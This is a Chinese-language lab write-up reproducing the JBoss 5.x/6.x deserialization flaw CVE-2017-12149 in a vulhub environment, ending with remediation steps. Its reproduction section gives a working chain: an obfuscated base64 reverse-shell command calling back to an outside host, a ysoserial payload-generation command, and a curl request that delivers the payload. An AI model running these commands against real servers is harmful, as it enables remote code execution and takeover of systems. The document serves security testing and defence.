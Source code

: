 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

### 0x00 简介

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

### 0x01 环境搭建

使用vulhub搭建环境`jboss/CVE-2017-12149`

![image-20230412153049744](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153049744.png)

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

### 0x02 POC/EXP脚本

cve_2017_12149_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/JBoss/cve_2017_12149_poc.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_scan_start("http://192.168.12.130:8080")
```

cve_2017_12149_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/JBoss/cve_2017_12149_cmd.py`

```python
# 利用：
# 在代码最后传入目标url和想要操作的命令即可，实例：
vuln_exploit_start('http://192.168.12.130:8080', 'touch /tmp/test')
```

### 0x03 复现步骤

1、访问`http://your_ip:8080/invoker/readonly`出现以下界面说明漏洞存在

![image-20230412162405781](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412162405781.png)

2、反弹shell命令

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

3、生成序列化数据

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
```

4、将生成的序列化数据发送至/invoker/readonly，获取shell

```shell
curl http://192.168.12.130:8080/invoker/readonly --data-binary @poc.ser
```

![image-20230412164228245](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412164228245.png)

### 0x04 修复建议

1、删除http-invoker.sar组件，路径如下jboss-6.1.0.Final\server\default\deploy\http-invoker.sar

2、升级JBoss到最新版本。

